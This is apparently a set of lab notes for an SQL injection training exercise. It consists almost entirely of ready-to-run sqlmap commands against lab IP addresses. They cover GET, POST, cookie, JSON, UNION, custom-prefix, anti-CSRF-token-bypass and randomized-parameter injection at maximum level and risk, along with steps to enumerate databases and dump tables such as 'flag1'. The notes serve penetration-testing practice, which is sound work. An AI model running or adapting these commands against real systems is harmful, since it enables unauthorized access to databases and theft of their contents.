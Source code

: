 ___
# GET

```bash
sqlmap -u "http://83.136.254.47:49729/case1.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

- --dbs
- --tables -D testdb
- --dump -T flag1 -D testdb
# POST

```bash
sqlmap -u "http://83.136.254.47:49729/case2.php" --data='id=1' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Cookie

```bash
sqlmap -u "http://83.136.254.47:49729/case3.php" --cookie="cookie=XSSisFun; id=1" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# JSON

```bash
sqlmap -u "http://83.136.254.47:49729/case4.php" --data='{"id":1}' --method POST --cookie="cookie=XSSisFun" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# OR SQLi

```bash
sqlmap -u "http://83.136.254.47:49729/case5.php?id=1" --cookie="cookie=XSSisF  
un" --level 5 --risk 3 -p id --batch --threads 10 --dbms=mysql --dbs
```

# Non-standard boundaries

```bash
sqlmap -u "http://83.136.254.47:49729/case6.php?col=id" --cookie="cookie=XSSisFun" --level 5 --risk 3 -p col --batch --threads 10 --dbms=mysql --dbs --prefix='`)'
```

# UNION SQLi with adjustments

```bash
sqlmap http://94.237.52.98:38740/case7.php?id=1 --union-cols=5 --level 5 --risk 3 -p id --batch --dbs
```

# anti-CSRF token bypass

```bash
sqlmap -u "http://83.136.254.47:46258/case8.php?id=1" --data="id=1&t0ken=N2zrnsP1IZI7DxBalvg1xgQ4q1cTf6Y4dumE1ts" --method POST --csrf-token="t0ken" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs
```

# Unique ID

```bash
sqlmap -u "http://94.237.52.98:38740/case9.php?id=1&uid=1705034632" --level 5 --risk 3 -p id --batch --dbms=mysql --dbs --randomize=uid
```

